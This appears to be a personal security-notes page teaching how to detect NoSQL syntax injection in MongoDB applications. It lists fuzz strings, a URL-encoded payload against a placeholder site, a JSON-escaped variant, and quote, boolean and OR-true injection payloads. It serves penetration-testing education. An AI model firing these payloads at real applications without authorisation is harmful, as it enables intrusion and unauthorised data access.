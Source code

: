 ![[NoSQL Injections.webp]]

# NoSQL Syntax Injection

The following string (MongoDB) can be used to fuzz the app's parameters for NoSQL injection vulnerabilities:

```bash
'"`{
;$Foo}
$Foo \xYZ
```

For example, inject the payload in a URL (Note, the payload must be URL encoded):

```bash
https://insecure-website.com/product/lookup?category=%27%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

If this causes a change from the original response, this may indicate that user input is not filtered or sanitized correctly.

NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.

In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become:

```bash
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

Submit the following payloads (single quote) to determine if the app uses your input as query syntax. If the first payload causes an error and the second payload does not, the app may be vulnerable:

```bash
this.category == '''
this.category == '\''
```

Some conditional payloads as well such as False:

```bash
' && 0 && 'x
```

And True:

```bash
' && 1 && 'x
```

As well as OR True/False payloads:

```bash
'||'1'=='1
'||'1'=='2
```
# Detecting NoSQL Injection
